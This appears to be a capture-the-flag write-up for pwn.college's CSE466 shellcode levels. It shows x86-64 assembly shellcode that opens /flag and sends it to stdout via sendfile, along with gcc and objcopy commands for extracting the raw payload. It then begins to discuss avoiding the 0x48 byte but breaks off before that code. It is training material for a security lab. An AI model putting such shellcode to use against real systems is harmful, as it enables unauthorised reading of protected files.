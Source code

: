 ```yaml
---
title: # pwn.college
date: 2021-11-16
---
```

# pwn.college
## CSE466
### Shell
#### 1 - 2

We are asked to receive the flag in '/flag'. First, we write the assembly code corresponding to the shellcode that we want to generate:

```asm
.global _start


_start:
  movq $2, %rax  # open()
  leaq flag(%rip), %rdi # RIP relative addressing
  movq $0, %rsi
  movq $0, %rdx
  syscall
  
  movq %rax, %rsi
  movq $40, %rax # syscall sendfile
  movq $1, %rdi
  movq $0, %rdx
  movq $1000, %r10
  syscall

flag: .asciz "/flag"
```

Than, we need to compile it and dump its `.text` section with `objcopy`:

```
gcc -no-pie -nostdlib -o 1 1.s
objcopy -O binary --only-section=.text 1 1.raw
```

Now, all we need to do is provide this 1.raw as input to the binary and we get the flag!

#### 3
This challenge forbids us from using the H(0x48) byte in our shellcode. Unfortunately, this is the byte for the [REX](https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix) prefix, which is necessary when you use 64 bit operands with operations that don't support it.


Thankfully, push and pop can do long-mode operations without using the REX prefix, so we can use them instead of mov. But this removes our ability to do rip relative addressing. Here is the code that should achieve that:

